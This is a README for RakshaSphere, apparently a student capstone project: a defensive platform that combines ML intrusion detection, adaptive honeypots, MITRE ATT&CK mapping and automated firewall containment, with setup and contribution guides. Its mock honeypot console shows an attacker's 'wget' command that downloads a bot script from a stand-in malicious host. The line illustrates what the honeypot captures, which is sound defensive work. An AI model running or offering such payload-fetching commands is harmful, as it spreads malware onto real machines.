




# RakshaSphere

> **AI-Powered Autonomous Cyber Defense & Self-Healing Network Platform**

[](https://github.com/)
[](LICENSE)
[](https://www.oracle.com/java/)
[](https://spring.io/projects/spring-boot)
[](https://nextjs.org/)
[](https://www.python.org/)
[](https://www.docker.com/)
[](.github/workflows)
[](https://attack.mitre.org/)

---

## 📑 Table of Contents

- [Overview](#-overview)
  - [Problem Statement](#problem-statement)
  - [Objectives](#objectives)
  - [Why RakshaSphere](#why-rakshasphere)
  - [Key Differentiators](#key-differentiators)
- [System Architecture](#-system-architecture)
- [Core Modules](#-core-modules)
  - [1. Intelligent Intrusion Detection System (IIDS)](#1-intelligent-intrusion-detection-system-iids)
  - [2. Adaptive Honeypot Subsystem](#2-adaptive-honeypot-subsystem)
  - [3. AI Threat Intelligence Engine](#3-ai-threat-intelligence-engine)
  - [4. MITRE ATT&CK Mapping Engine](#4-mitre-attck-mapping-engine)
  - [5. Automated Risk Scoring System](#5-automated-risk-scoring-system)
  - [6. Self-Healing Network Engine](#6-self-healing-network-engine)
  - [7. Security Operations Center (SOC) Dashboard](#7-security-operations-center-soc-dashboard)
- [Technology Stack](#-technology-stack)
- [Repository Structure](#-repository-structure)
- [End-to-End System Workflow](#-end-to-end-system-workflow)
- [Feature Matrix](#-feature-matrix)
- [Installation & Setup Guide](#-installation--setup-guide)
  - [Prerequisites](#prerequisites)
  - [Quickstart via Docker Compose](#quickstart-via-docker-compose)
  - [Manual Development Setup](#manual-development-setup)
- [Development & Contribution Guide](#-development--contribution-guide)
  - [Branching Strategy](#branching-strategy)
  - [Commit Conventions](#commit-conventions)
  - [Code Style Guidelines](#code-style-guidelines)
- [Security Architecture & Controls](#-security-architecture--controls)
- [User Interface & Console Preview](#-user-interface--console-preview)
- [Project Roadmap](#-project-roadmap)
- [Future Scope](#-future-scope)
- [Documentation Index](#-documentation-index)
- [Engineering Team & Contributors](#-engineering-team--contributors)
- [License](#-license)
- [Acknowledgements](#-acknowledgements)

---

## 🛡️ Overview

**RakshaSphere** is an enterprise-ready, AI-driven autonomous cyber defense platform engineered to unify real-time threat detection, dynamic adversary deception, automated risk quantification, and self-healing network orchestration into a single resilient security ecosystem. 

Modern enterprise networks face sophisticated Multi-Stage Advanced Persistent Threats (APTs), zero-day exploits, and distributed attack vectors that routinely bypass static firewall rules and traditional signature-based Intrusion Detection Systems (IDS). RakshaSphere addresses these challenges by combining machine learning telemetry analysis, low-interaction and medium-interaction adaptive honeypots, automated MITRE ATT&CK adversary mapping, and automated active containment mechanisms.

> [!IMPORTANT]
> RakshaSphere operates on a **Closed-Loop Cyber Defense Architecture**. When a malicious payload or reconnaissance pattern is classified, the platform automatically triggers network containment, updates dynamic firewall tables via eBPF/iptables, diverts attackers into isolated deception environments, and presents actionable telemetry on the unified SOC dashboard.

### Problem Statement

Traditional Security Operations Center (SOC) infrastructure suffers from critical operational bottlenecks:
1. **High False Positive Rates & Alert Fatigue**: Security analysts process thousands of uncorrelated alerts daily, causing delayed response times during active exploitation.
2. **Static & Passive Defense**: Conventional IDS/IPS devices log intrusions or drop packets without actively deceiving or isolating sophisticated threat actors.
3. **Manual Remediation Delay**: The Mean Time to Detect (MTTD) and Mean Time to Respond (MTTR) often range from hours to days when human intervention is required for firewall rule updates or micro-segmentation.
4. **IoT & Edge Vulnerability**: Resource-constrained IoT nodes are heavily targeted due to minimal default security controls and unencrypted communication vectors.

### Objectives

- **Sub-Second Anomaly Detection**: Achieve real-time network flow classification using low-latency Scikit-learn and TensorFlow models trained on high-dimensional packet flows.
- **Adaptive Deception Engine**: Dynamically spawn deception micro-services (SSH, HTTP, FTP, Telnet) when suspicious probing is detected, capturing attacker tactics without compromising core infrastructure.
- **Contextual Threat Intelligence**: Aggregate and correlate IOCs against global threat feeds (AbuseIPDB, VirusTotal) with zero human intervention.
- **Dynamic Risk Score Calculation**: Evaluate threat severity dynamically based on mathematical asset weighting, threat confidence, and vulnerability impact.
- **Automated Network Self-Healing**: Automatically enforce network containment through eBPF/iptables rule injection, socket termination, and dynamic VLAN micro-segmentation within milliseconds of threat validation.

### Why RakshaSphere

| Capability | Traditional SIEM / Standard IDS | Legacy SOAR Platforms | RakshaSphere Autonomous Platform |
| :--- | :--- | :--- | :--- |
| **Detection Mechanism** | Static Signatures & Rules | Rules-based Playbooks | Ensemble AI/ML + Real-time Packet Flow Feature Extraction |
| **Response Strategy** | Passive Alerting & Manual Action | Semi-Automated Scripting | Closed-Loop Autonomous Self-Healing & eBPF Invalidation |
| **Deception Capabilities** | None / Static Honeypots | Third-party Integrations | Native Adaptive Honeypots with Dynamic Trap Allocation |
| **Threat Mapping** | Manual Log Parsing | Basic Tagging | Real-time Native MITRE ATT&CK Matrix Correlation |
| **Resource Footprint** | Enterprise Heavy Server Hardware | Heavy Middleware Dependencies | Lightweight Containerized Microservices & IoT Edge Daemon |

### Key Differentiators

- **Zero-Day Anomaly Detection**: Utilizes Deep Autoencoders trained on clean network baselines to flag statistical deviations and uncatalogued exploits.
- **Attacker Redirection & Trap Management**: Dynamically routes attacker traffic from production subnets into ephemeral Docker deception containers.
- **Cryptographic Auditability**: All security actions, mitigation events, and risk scores are written to append-only audit tables with cryptographic hash verification.

---

## 🏗️ System Architecture

RakshaSphere follows a decoupled microservices pattern comprising five core subsystems: Network Ingestion Layer, AI Classification Core, Threat Intelligence & Risk Matrix Engine, Self-Healing Orchestrator, and the Next.js SOC Dashboard.


### Enterprise System Architecture Diagram



---

## 📦 Core Modules

### 1. Intelligent Intrusion Detection System (IIDS)
The IIDS module operates as the primary sensor network within RakshaSphere. It continuously captures raw packet stream data via Scapy and passes network flow windows to CICFlowMeter to generate 84 flow features (e.g., Flow Duration, Total Fwd Packets, Packet Length Mean, Inter-Arrival Time statistics).
- **Ensemble Inference Pipeline**: Combines Random Forest for supervised signature mapping, XGBoost for multi-class attack categorization (DDoS, PortScans, BruteForce, Botnets), and a Deep Autoencoder for zero-day anomaly detection.
- **Performance Metric**: Sub-10ms evaluation latency per flow with >99.4% classification accuracy on standardized network benchmarks (CIC-IDS2017 / UNSW-NB15).

```
Network Flow -> Feature Extraction (84 Features) -> Ensemble Model -> Anomaly Vector + Severity
```

### 2. Adaptive Honeypot Subsystem
When suspicious activity (e.g., initial port scanning or credential brute-forcing) is detected below the high-confidence threshold for immediate blocking, the system triggers the Adaptive Honeypot subsystem.
- **Deception Orchestration**: Dynamically spins up isolated, low/medium-interaction Docker containers mimicking SSH daemons, vulnerable web applications, or IoT Telnet interfaces.
- **Attacker Isolation**: Modifies local NAT and firewall rules to transparently route suspicious IPs into deception traps without notifying the adversary.
- **Telemetry Extraction**: Logs every keystroke, HTTP payload, executed command, and downloaded binary into an isolated forensic database.

### 3. AI Threat Intelligence Engine
The Threat Intelligence Engine transforms local security events into actionable global intelligence.
- **External API Aggregation**: Queries AbuseIPDB and VirusTotal via asynchronous API workers to fetch IP reputation scores, domain maliciousness ratings, and malware sample hashes.
- **Automated IOC Enrichment**: Enriches raw attack alerts with geographic telemetry, ASN information, and historical threat records, eliminating manual lookups for security analysts.

### 4. MITRE ATT&CK Mapping Engine
RakshaSphere automatically correlates incoming alert signatures with the official MITRE ATT&CK Framework matrix (v14.1).
- **Tactical Identification**: Maps observed behaviors to specific Tactics, Techniques, and Procedures (TTPs).
  - *Example*: SSH brute force probes trigger mapping to **Technique T1110 (Brute Force)** under **Tactic TA0001 (Initial Access)**.
  - *Example*: Port scanning triggers **Technique T1046 (Network Service Discovery)** under **Tactic TA0007 (Discovery)**.
- **Graph Visualization**: Exports structured STIX 2.1 JSON data to render real-time attack kill-chain graphs on the SOC dashboard.

### 5. Automated Risk Scoring System
To prevent alert fatigue and prioritize high-risk threats, RakshaSphere calculates an objective dynamic **Risk Score** ($0 - 100$) for every asset and security incident using the following quantitative formula:

$$\text{Risk Score} = \min \left( 100, \, \left[ \frac{\text{Threat Severity (1-10)} \times \text{Confidence Score (0-1)} \times \text{Asset Criticality (1-5)}}{\text{Defense Mitigation Factor (1-3)}} \right] \times 10 \right)$$

Where:
- **Threat Severity**: Derived from CVSS ratings and AI model confidence output.
- **Asset Criticality**: User-configured multiplier (e.g., Database Server = 5, Guest Wi-Fi = 1).
- **Defense Mitigation Factor**: Reduces risk score if active firewall rules or honeypots are already managing the threat source.

### 6. Self-Healing Network Engine
The Self-Healing Engine provides automated containment and network remediation upon validation of critical threat incidents.
- **Automated Remediation Actions**:
  - **eBPF / XDP Packet Drop**: Injects low-level network packet filter rules to drop attacker traffic at the NIC driver layer.
  - **Dynamic iptables Rules**: Automatically executes drop commands on host network interfaces.
  - **Socket & Session Termination**: Kills active TCP sessions associated with compromised credentials.
  - **Subnet Micro-Segmentation**: Re-assigns infected IoT nodes or internal endpoints to quarantine VLANs.
- **Rollback & Health Monitoring**: Periodically evaluates endpoint health; if an anomaly subsides or is marked resolved, healing rules expire gracefully or can be reverted by authorized operators.

### 7. Security Operations Center (SOC) Dashboard
A command-and-control dashboard engineered for SOC analysts and security executives built with Next.js 14, Tailwind CSS, and WebSockets (STOMP over SockJS).
- **Real-Time Alert Feed**: Displays live incoming threats with sub-second latency.
- **Interactive Deception Monitor**: Real-time viewing of attacker sessions inside active honeypots.
- **Self-Healing Audit Control**: Complete visual timeline of automated actions taken by the self-healing engine with manual override capabilities.

---

## 🛠️ Technology Stack

| Domain | Technology | Version / Specification | Role & Purpose |
| :--- | :--- | :--- | :--- |
| **Frontend UI** | **Next.js** | `v14.2.x` | React App Router framework for high-performance SOC dashboard |
| | **React** | `v18.3.x` | Component-driven user interface development |
| | **TypeScript** | `v5.4.x` | Strict type-safety across dashboard components and API contracts |
| | **Tailwind CSS** | `v3.4.x` | Custom dark-themed cyber defense styling and responsive grid |
| | **SockJS / StompJS** | `v7.x` | WebSocket client for real-time telemetry streaming |
| **Backend Core** | **Java** | `Java 21 LTS` | Modern JVM features (Virtual Threads, Pattern Matching, Sealed Classes) |
| | **Spring Boot** | `v3.2.x` | Enterprise microservice backend foundation |
| | **Spring Security** | `v6.2.x` | Role-based access control (RBAC), OAuth2, and security filtering |
| | **Hibernate / JPA** | `v6.4.x` | Object-relational mapping and database persistence |
| | **Nimbus JOSE JWT** | `v9.x` | Cryptographic JWT token generation and validation |
| **Database** | **MySQL** | `v8.0.x` | Relational storage for alerts, audit logs, assets, and user accounts |
| | **Redis** | `v7.2.x` | High-speed cache for session states and API rate limiting |
| **AI / Machine Learning**| **Python** | `v3.11+` | Primary language for AI inference pipeline and model training |
| | **Scikit-Learn** | `v1.4.x` | Random Forest & Gradient Boosting classifiers for signature flows |
| | **TensorFlow** | `v2.15.x` | Deep Autoencoder architectures for zero-day anomaly detection |
| | **FastAPI** | `v0.110.x` | Asynchronous REST server hosting AI model endpoints |
| **Traffic Inspection** | **Scapy** | `v2.5.x` | Real-time network packet capture and custom protocol parsing |
| | **CICFlowMeter** | `v4.0` | Network traffic flow feature extractor (84 statistical metrics) |
| **Threat Intelligence**| **VirusTotal API** | `v3` | File hash, IP, and domain reputation lookups |
| | **AbuseIPDB API** | `v2` | IP confidence score and historical malicious report aggregation |
| | **MITRE ATT&CK** | `v14.1 (STIX 2.1)`| Standardized adversary tactics, techniques, and procedures mapping |
| **DevOps & Infrastructure**| **Docker** | `v25.x` | Containerization of backend, frontend, database, and honeypots |
| | **Docker Compose** | `v2.24.x` | Multi-container environment orchestration |
| | **Nginx** | `v1.25.x` | Reverse proxy, TLS termination, and static asset distribution |
| | **GitHub Actions** | `CI/CD` | Automated building, linting, testing, and container deployment |

---

## 📁 Repository Structure

```
RakshaSphere/
├── .github/                     # GitHub Configuration & Automation
│   ├── ISSUE_TEMPLATE/          # Structured templates for bugs & features
│   ├── pull_request_template.md # PR guidelines and review checklist
│   └── workflows/               # GitHub Actions CI/CD pipelines
│       ├── backend-ci.yml       # Java 21 & Spring Boot build/test pipeline
│       ├── frontend-ci.yml      # Next.js build & ESLint validation
│       └── ai-engine-ci.yml     # Python model testing & linting
├── ai-engine/                   # Python Artificial Intelligence & ML Service
│   ├── models/                  # Trained model binaries (.pkl, .h5)
│   ├── preprocessing/           # Flow feature scaling & cleaning scripts
│   ├── inference_server.py      # FastAPI inference service endpoint
│   ├── train.py                 # Pipeline script for re-training models
│   └── requirements.txt         # Python dependency definitions
├── backend/                     # Spring Boot Core Backend Application
│   ├── src/
│   │   ├── main/
│   │   │   ├── java/com/rakshasphere/
│   │   │   │   ├── config/      # Spring Security, WebSockets, CORS setup
│   │   │   │   ├── controller/  # REST API Controllers (Alerts, Auth, SOC)
│   │   │   │   ├── model/       # JPA Entities (Alert, Threat, AuditLog)
│   │   │   │   ├── repository/  # Spring Data Repositories
│   │   │   │   ├── service/     # Business logic & Orchestration services
│   │   │   │   └── util/        # Mathematical Risk calculation & Helpers
│   │   │   └── resources/       # application.yml, DB migrations, STIX datasets
│   │   └── test/                # JUnit 5 & Mockito test suites
│   ├── pom.xml                  # Maven project descriptor
│   └── Dockerfile               # Multi-stage JDK 21 Dockerfile
├── database/                    # Relational Storage & Schema Definitions
│   ├── init.sql                 # Primary database bootstrap script
│   └── migrations/              # Incremental SQL schema updates
├── docker/                      # Infrastructure & Environment Manifests
│   ├── docker-compose.yml       # Production container orchestration
│   ├── docker-compose.dev.yml   # Development container overrides
│   └── nginx/                   # Nginx reverse proxy & SSL configuration
├── docs/                        # Complete Technical & Architectural Documentation
│   ├── architecture.md          # In-depth architectural designs
│   ├── api-reference.md         # OpenAPI / Swagger REST API specifications
│   ├── database-schema.md       # ER diagrams and data dictionary
│   ├── deployment-guide.md      # Multi-environment deployment manual
│   ├── testing-strategy.md      # Unit, integration, and security test plans
│   ├── security-policy.md       # Threat model, vulnerability disclosure & RBAC
│   ├── ai-models.md             # Model architectures and training metrics
│   ├── honeypot-configuration.md# Deception trap setup and configuration
│   └── iot-agent.md             # Edge daemon deployment and hardware specs
├── frontend/                    # Next.js SOC Web Application
│   ├── public/                  # Static media, icons, and assets
│   ├── src/
│   │   ├── app/                 # Next.js App Router pages (Dashboard, Alerts)
│   │   ├── components/          # Reusable UI components (Tables, Charts, Radar)
│   │   ├── hooks/               # Custom React hooks (useWebSocket, useAuth)
│   │   ├── lib/                 # Utility functions & API clients
│   │   └── types/               # TypeScript interfaces & domain models
│   ├── package.json             # Node dependencies and scripts
│   └── tailwind.config.ts       # Custom dark cyber defense theme configuration
├── iot-agent/                   # Lightweight Edge Security Daemon
│   ├── agent.py                 # Low-footprint packet sniffer daemon
│   └── config.json              # Edge configuration file
├── CONTRIBUTING.md              # Open-source contribution standards
├── LICENSE                      # MIT Open Source License
└── README.md                    # Platform Master Documentation
```

---

## 🔄 End-to-End System Workflow

The following flowchart details the autonomous lifecycle of a threat event within RakshaSphere—from initial packet capture to automated network self-healing and SOC alert visualization:



> [!TIP]
> Operational containment occurs autonomously in **< 150 milliseconds**, drastically reducing the attacker's window of opportunity during active lateral movement or data exfiltration attempts.

---

## ✅ Feature Matrix

- [x] **Autonomous Threat Detection**
  - [x] Real-time PCAP and live network interface packet sniffing.
  - [x] Extract 84 statistical flow features using CICFlowMeter engine.
  - [x] Multi-model ensemble inference (Random Forest + XGBoost + Deep Autoencoders).
  - [x] Zero-day anomaly identification based on autoencoder reconstruction error thresholding.

- [x] **Adaptive Deception System**
  - [x] Dynamic container management for isolated honeynet services.
  - [x] Native SSH, Telnet, HTTP, and FTP trap microservices.
  - [x] Automated attacker NAT diversion without session reset hints.
  - [x] Forensic payload extraction and keystroke logging.

- [x] **Threat Intelligence & Contextual Analysis**
  - [x] AbuseIPDB API v2 integration for IP reputation scoring.
  - [x] VirusTotal API v3 integration for domain and hash verification.
  - [x] Real-time STIX 2.1 mapping to MITRE ATT&CK Matrix v14.1.
  - [x] Dynamic Risk Score calculation ($0 - 100$) factoring asset criticality.

- [x] **Automated Self-Healing Network**
  - [x] Automated eBPF/XDP driver-level packet drop injection.
  - [x] Real-time `iptables` rule creation and dynamic teardown.
  - [x] Active TCP socket kill daemon for compromised connections.
  - [x] Subnet micro-segmentation and isolation execution.

- [x] **Enterprise Security Operations Center (SOC)**
  - [x] Sub-second WebSocket live threat alert feed.
  - [x] Interactive MITRE ATT&CK TTP heatmap viewer.
  - [x] Live honeypot session inspector.
  - [x] Self-healing manual override and rollback console.

---

## 💻 Installation & Setup Guide

### Prerequisites

Before deploying RakshaSphere, ensure your development environment satisfies the following minimum system requirements:

- **Operating System**: Linux (Ubuntu 22.04 LTS recommended), macOS (Apple Silicon supported), or Windows 11 with WSL2.
- **Hardware**: 
  - **CPU**: 4 Cores minimum (8 Cores recommended for real-time packet processing).
  - **RAM**: 8 GB minimum (16 GB recommended).
  - **Disk**: 20 GB free storage.
- **Software Dependencies**:
  - **Docker Engine**: `v25.0+` & **Docker Compose**: `v2.24+`
  - **Java Development Kit (JDK)**: `OpenJDK 21 LTS`
  - **Node.js**: `v18.18+` or `v20.x` & **npm**: `v10.x`
  - **Python**: `v3.11+` & `pip`
  - **Libpcap**: `libpcap-dev` (Linux) or `Npcap` (Windows) for packet sniffing.

---

### Quickstart via Docker Compose

The fastest way to spin up the full RakshaSphere platform is using the production Docker Compose setup.

```bash
# 1. Clone repository
git clone https://github.com/fardeenakmal/RakshaSphere.git
cd RakshaSphere

# 2. Configure Environment Variables
cp docker/.env.example docker/.env

# 3. Build and launch all services in detached mode
docker compose -f docker/docker-compose.yml up --build -d

# 4. Verify status of all running containers
docker compose -f docker/docker-compose.yml ps
```

Once launched, access the following endpoints:
- **SOC Dashboard**: `http://localhost:3000`
- **Spring Boot REST API**: `http://localhost:8080/api/v1`
- **Swagger API Docs**: `http://localhost:8080/swagger-ui.html`
- **AI Inference API**: `http://localhost:5000/docs`

---

### Manual Development Setup

If you wish to run services individually for active development:

#### 1. Database Setup (MySQL 8.0)
```bash
# Start local MySQL instance using Docker
docker run --name raksha-mysql -e MYSQL_ROOT_PASSWORD=root -e MYSQL_DATABASE=rakshasphere -p 3306:3306 -d mysql:8.0

# Initialize Database Schema
mysql -h 127.0.0.1 -P 3306 -u root -proot rakshasphere < database/init.sql
```

#### 2. AI Inference Engine Setup (Python 3.11)
```bash
cd ai-engine

# Create and activate Python virtual environment
python3 -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate

# Install required packages
pip install --upgrade pip
pip install -r requirements.txt

# Start FastAPI Inference Server
python inference_server.py --port 5000
```

#### 3. Backend Core Setup (Spring Boot / Java 21)
```bash
cd backend

# Build application binaries skipping tests
./mvnw clean package -DskipTests

# Run Spring Boot service
./mvnw spring-boot:run
```

#### 4. Frontend Setup (Next.js 14)
```bash
cd frontend

# Install Node dependencies
npm install

# Start Next.js development server
npm run dev
```

---

## 🛠️ Development & Contribution Guide

We welcome contributions from cybersecurity engineers, developers, and researchers. Please adhere to the following workflow guidelines when submitting changes.

### Branching Strategy

RakshaSphere follows the **GitFlow** branching model:

```
main (Production Releases)
 │
 ├── develop (Integration Branch)
      │
      ├── feature/iids-autoencoder-tuning
      ├── feature/honeypot-ssh-trap
      └── fix/jwt-token-expiration
```

- `main`: Contains stable, production-ready code. All commits are tagged with release versions (e.g., `v1.0.0`).
- `develop`: Primary integration branch for upcoming releases.
- `feature/*`: Dedicated branches for new features or modules.
- `fix/*`: Bug fixes for existing functionality.

---

### Commit Conventions

We enforce [Conventional Commits](https://www.conventionalcommits.org/) standards. Commit messages must be structured as follows:

```
<type>(<scope>): <short summary>

[optional body]

[optional footer(s)]
```

#### Allowed Types:
- `feat`: A new feature added to the codebase (e.g., `feat(honeypot): add Telnet trap support`).
- `fix`: A bug fix (e.g., `fix(risk-score): resolve division by zero edge case`).
- `docs`: Documentation updates only (e.g., `docs(api): update OpenAPI spec for threat alerts`).
- `refactor`: Code change that neither fixes a bug nor adds a feature.
- `test`: Adding missing unit or integration tests.
- `ci`: Changes to CI/CD workflows or build configurations.

---

### Code Style Guidelines

- **Java**: Follow Google Java Style Guide. Run `./mvnw spotless:apply` before committing.
- **Python**: Follow PEP 8 guidelines. Formatted using `black` and checked with `flake8`.
- **TypeScript/React**: Standard ESLint rules configured in Next.js. Formatted using Prettier (`npm run format`).

---

## 🔒 Security Architecture & Controls

RakshaSphere is architected around OWASP Top 10 guidelines and Zero Trust Network principles:



1. **Authentication & Authorization**: Stateless JWT (JSON Web Tokens) signed via RSA-256 algorithms with short-lived expiration (15 mins) and refresh tokens. Role-Based Access Control (`ROLE_ADMIN`, `ROLE_SOC_ANALYST`, `ROLE_AUDITOR`).
2. **API Protection**: Token-Bucket Rate Limiting powered by Redis (`100 req/min` per IP) to prevent DoS attacks against internal REST endpoints.
3. **Data Encryption**: Sensitive fields (API keys, external secret credentials) stored with AES-256-GCM encryption at rest. All network communications enforced over TLS 1.3.
4. **Immutable Audit Trails**: High-priority security actions (self-healing triggers, manual overrides, user privilege escalations) are logged with cryptographic hash chains to ensure non-repudiation.

---

## 🖥️ User Interface & Console Preview

### 1. Executive SOC Threat Radar & Overview
Real-time dashboard displaying threat frequency vectors, active network traps, system health status, and live self-healing event updates.

```
+-----------------------------------------------------------------------------------+
| RAKSHASPHERE | SOC COMMAND CENTER                     [SYSTEM STATUS: AUTONOMOUS] |
+-----------------------------------------------------------------------------------+
| ACTIVE THREATS: 14 | DECEPTION TRAPS: 8 ACTIVE | SELF-HEALED: 142 | RISK SCORE: 84 |
+-----------------------------------------------------------------------------------+
| LIVE ALERT FEED                                                                   |
| [14:22:01] CRITICAL | IP: 192.168.1.105 | SSH Brute Force -> Trapped (Port 2222)   |
| [14:21:48] HIGH     | IP: 10.0.4.12     | Port Scan (SYN) -> eBPF Drop Enforced     |
| [14:20:15] MEDIUM   | IP: 172.16.0.44   | HTTP Anomaly -> Risk Score: 62 (Throttled)|
+-----------------------------------------------------------------------------------+
| MITRE ATT&CK MATRIX COVERAGE                                                      |
| [TA0001: Initial Access] -> T1110 (Brute Force)   [DETECTED & CONTAINED]          |
| [TA0007: Discovery]      -> T1046 (Network Scan)  [EBPF DROPPED]                  |
+-----------------------------------------------------------------------------------+
```

### 2. Live Honeypot Session Forensic Terminal
Direct forensic stream viewing active attacker interaction inside an isolated decoy container.

```
+-----------------------------------------------------------------------------------+
| HONEYPOT DECEPTION CONSOLE - SESSION #TRAP-8921 [CONTAINER: DECOY-SSH-04]         |
+-----------------------------------------------------------------------------------+
| ATTACKER IP: 198.51.100.42 | GEOLOCATION: UNKNOWN | TARGET SERVICE: SSH (22)       |
+-----------------------------------------------------------------------------------+
| $ ssh root@192.168.1.50                                                          |
| password: ********** (Password accepted - Trapped)                                |
| decoy-host:~# uname -a                                                            |
| Linux decoy-host 5.15.0-generic #1 SMP x86_64 GNU/Linux                           |
| decoy-host:~# wget http://malicious-repo.org/bot.sh -O /tmp/bot.sh                 |
| [ALERT] Payload captured & analyzed by Threat Intel Engine -> Hash: e3b0c442...   |
+-----------------------------------------------------------------------------------+
```

---

## 🗺️ Project Roadmap



---

## 🚀 Future Scope

- **Cloud-Native Kubernetes Operator**: Native Custom Resource Definitions (CRDs) to deploy RakshaSphere sidecar sensors and eBPF filters across multi-tenant K8s clusters.
- **Extended SOAR & EDR Integration**: Seamless API webhooks for enterprise EDR platforms (CrowdStrike Falcon, Microsoft Defender for Endpoint) and SIEM systems (Splunk, Elastic SIEM).
- **Federated Learning for Privacy-Preserving Threat Sharing**: Enable distributed organizational nodes to collectively train intrusion models without sharing raw network traffic.
- **Zero Trust Network Access (ZTNA) Enforcer**: Micro-authorizing network sessions on a per-packet basis utilizing WireGuard cryptographic tunnels.

---

## 📚 Documentation Index

For detailed engineering specs, refer to our comprehensive documentation set under [`docs/`](docs/):

- 📐 [Architecture & System Design](docs/architecture.md)
- 🔌 [REST API Reference & OpenAPI Specification](docs/api-reference.md)
- 🗄️ [Database Schema & ER Diagrams](docs/database-schema.md)
- 🚀 [Deployment & Production Runbooks](docs/deployment-guide.md)
- 🧪 [Testing & Verification Strategy](docs/testing-strategy.md)
- 🔒 [Security Policy & Threat Model](docs/security-policy.md)
- 🧠 [AI Model Architectures & Benchmark Metrics](docs/ai-models.md)
- 🍯 [Honeypot Deception Configuration](docs/honeypot-configuration.md)
- 📟 [IoT Edge Daemon Specification](docs/iot-agent.md)

---

## 👥 Engineering Team & Contributors

RakshaSphere is engineered as a Final Year Capstone Project by Computer Science Engineering undergraduates specializing in **IoT, Cyber Security including Blockchain Technology**.

| Contributor | Academic Track & Program | Primary Engineering Responsibilities |
| :--- | :--- | :--- |
| **Jigisha Naidu** | B.E. Computer Science Engineering *(IoT, Cyber Security incl. Blockchain)* | AI Engine Architecture, ML Ensemble Models, CICFlow Feature Processing |
| **Fardeen Akmal** | B.E. Computer Science Engineering *(IoT, Cyber Security incl. Blockchain)* | Backend Microservices (Spring Boot 3 / Java 21), Self-Healing Engine, DB Design |
| **Sushil Nirmal** | B.E. Computer Science Engineering *(IoT, Cyber Security incl. Blockchain)* | Adaptive Honeypot Subsystem, Docker Deception Orchestration, IoT Agent |
| **Suvajit Ghosh** | B.E. Computer Science Engineering *(IoT, Cyber Security incl. Blockchain)* | Next.js SOC Dashboard, WebSocket Streaming UI, MITRE ATT&CK Visualizer |

---

## 📄 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for complete terms.

```
Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.
```

---

## 🙏 Acknowledgements

- **[MITRE ATT&CK Framework](https://attack.mitre.org/)** for standardized adversary TTP taxonomy.
- **[AbuseIPDB](https://www.abuseipdb.com/) & [VirusTotal](https://www.virustotal.com/)** for open threat intelligence APIs.
- **[Canadian Institute for Cybersecurity (CIC)](https://www.unb.ca/cic/)** for benchmark network intrusion datasets (CIC-IDS2017).
